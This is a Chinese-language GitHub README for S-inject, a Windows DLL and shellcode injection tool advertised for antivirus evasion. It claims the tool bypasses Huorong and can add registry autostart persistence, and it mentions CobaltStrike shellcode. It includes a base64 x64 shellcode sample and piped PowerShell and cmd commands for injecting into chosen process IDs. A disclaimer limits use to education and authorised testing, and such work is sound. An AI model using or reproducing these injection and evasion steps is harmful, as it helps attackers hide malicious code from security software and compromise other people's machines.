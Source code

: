 ![](https://img.shields.io/badge/joe1sn-S_inject-green)  ![](https://img.shields.io/badge/windows-C++-yellow)

# S-inject

DLL+Shellcode的Windows注入免杀工具

![image-20240205141410967](./README.assets/image-20240205141410967.png)

只是罗列各种方法，免杀搭配其他技巧中要具体灵活使用

**须知：**

1. 反射式注入参考了著名github项目：https://github.com/stephenfewer/ReflectiveDLLInjection
   该项目为反射式注入支持的DLL
2. Shellcode使用base64编码后的shellcode
3. 相关测试的DLL文件在`Test Files`文件夹中

**免责声明：** 本工具仅供教育和授权测试目的使用。开发者及贡献者不支持、不鼓励也不赞成任何非法或未经授权的使用。 用户有责任确保其使用本工具的行为符合所有适用的法律法规。严禁将本工具用于任何未经授权的活动。 开发者及贡献者对使用本工具造成的任何损害或后果不承担责任。使用前请自行承担风险。 通过使用本工具，您同意这些条款，并对您的行为承担全部责任。

# 免杀效果

远程shellcode注入等功能可免杀火绒，VNC无感，可注册表添加开机自启动

![image-20240216112653373](./README.assets/image-20240216112653373.png)

![image-20240216113029381](./README.assets/image-20240216113029381.png)

![image-20240216113432922](./README.assets/image-20240216113432922.png)

![image-20240216113917066](./README.assets/image-20240216113917066.png)

# 支持功能

![image-20240205124826998](./README.assets/image-20240205124826998.png)

**DLL注入**

- 远程线程注入
- 反射式注入
- APC调度注入

**Shellcode注入**

- 远程线程注入
- APC调度注入
- Context上下文注入
- **可注入进程枚举**

# 使用

非交互式终端使用管道传参

- 注意cmd和powershell的区别

- 注意cmd字符串超过80个会自动换行，推荐搭配powershell

## Shellcode注入

这里以64为windows10版本Calc shellcode位例子(虽然会崩溃)
shellcode来源：https://github.com/boku7/x64win-DynamicNoNull-WinExec-PopCalc-Shellcode
base64编码后shellcode

```c
SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==
```

![image-20240205135709302](./README.assets/image-20240205135709302.png)

以CobaltStrike Shellcode为例子

![image-20240205140305351](./README.assets/image-20240205140305351.png)

### 关于使用不可交互终端

可以参考 DLL注入：B, 不可交互终端 部分，尝试利用管道加载

```powershell
#cmd
(echo <option> <base64 Shellcode>) | <S-inject Path>

#powershell
echo "<option index>`n`<pid>`n`<base64 Shellcode>" | <S-inject Path>

#(echo 4`n`16900`n`SDH/SPfnZUiLWGBIi1sYSItbIEiLG0iLG0iLWyBJidiLWzxMAcNIMclmgcH/iEjB6QiLFAtMAcJNMdJEi1IcTQHCTTHbRItaIE0Bw00x5ESLYiRNAcTrMltZSDHASIniUUiLDCRIMf9BizyDTAHHSInW86Z0BUj/wOvmWWZBiwREQYsEgkwBwFPDSDHJgMEHSLgPqJaRuoeanEj30EjB6AhQUeiw////SYnGSDHJSPfhUEi4nJ6TnNGah5pI99BQSInhSP/CSIPsIEH/1g==) |  D:\Github\S-inject\x64\Release\S-inject.exe
```

![image-20240205140815069](./README.assets/image-20240205140815069.png)

## DLL注入

### A, 可交互终端

直接在终端中启动，根据菜单选择功能即可，如枚举可注入进程

![image-20240205125036362](./README.assets/image-20240205125036362.png)

### B, 不可交互终端

因为作者不想增加代码量，单独增添没有必要的参数功能，可以利用管道解决该问题
以下示例使用的注入对象更新前的为`x32dbg`和`x64dbg`，因为一个软件有两个位数的版本，在`x96dbg`中可以选择位数，便于测试

**如远程线程DLL注入**

x64

- powershell

  ```powershell
  echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205131438254](./README.assets/image-20240205131438254.png)

- cmd

  推荐使用powershell启动

  ```powershell
  powershell -c echo "<option index>`n`<DLL Path>`n`<PID>" | <S-inject Path>
  
  #powershell -c echo "1`n`D:\Github\S-inject\Test Files\TestDll_x64.dll`n`20176" | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205131316348](./README.assets/image-20240205131316348.png)

  cmd.exe

  ```
  (echo <option> <DLL Path> &echo <PID>) | <S-inject Path>
  
  #(echo 1 D:\Github\S-inject\Test Files\TestDll_x64.dll &echo 22268) | D:\Github\S-inject\x64\Release\S-inject.exe
  ```

  ![image-20240205135210534](./README.assets/image-20240205135210534.png)









